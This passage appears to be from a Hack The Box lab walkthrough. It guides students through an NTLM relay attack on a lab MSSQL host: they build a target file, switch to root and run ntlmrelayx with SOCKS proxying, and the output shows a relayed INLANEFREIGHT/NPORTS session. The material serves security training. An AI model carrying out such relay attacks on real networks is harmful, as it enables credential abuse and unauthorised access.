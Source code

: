 Right after, students will have to create a target list containing the target (`172.16.117.60`) and the protocol `MSSQL` from the other SSH session.

Code: shell

```shell
echo "mssql://172.16.117.60" > target.txt
cat target.txt 
```

```shell-session
htb-student@ubuntu:~$ echo "mssql://172.16.117.60" > target.txt
htb-student@ubuntu:~$ cat target.txt

mssql://172.16.117.60
```

Once, they have created the target file, students will have to switch to the root user using `sudo su`.

Code: shell

```shell
sudo su
```

```shell-session
htb-student@ubuntu:~$ sudo su
root@ubuntu:/home/htb-student#
```

Subsequently, students need to start `ntlmrelayx` with the `-tf` (Target File) option specifying the `target.txt` file, the `-smb2support` providing `SMBv2` support for hosts that require it, and the `-socks` option in order to start a SOCKS proxy, while simultaneously relaying the authentications.

Code: shell

```shell
ntlmrelayx.py -tf target.txt -smb2support -socks
```

```shell-session
root@ubuntu:/home/htb-student# ntlmrelayx.py -tf target.txt -smb2support -socks
Impacket v0.11.0 - Copyright 2023 Fortra

<SNIP>
Type help for list of commands
ntlmrelayx>
```

After a while, they will notice that a few authentication requests are being relayed, one of which is `NPORT`'s.

Code: shell

```shell
socks
```

```shell-session
ntlmrelayx> socks
Protocol  Target         Username              AdminStatus  Port 
--------  -------------  --------------------  -----------  ----
<SNIP>
MSSQL     172.16.117.60  INLANEFREIGHT/NPORTS  N/A          1433 
ntlmrelayx>
```
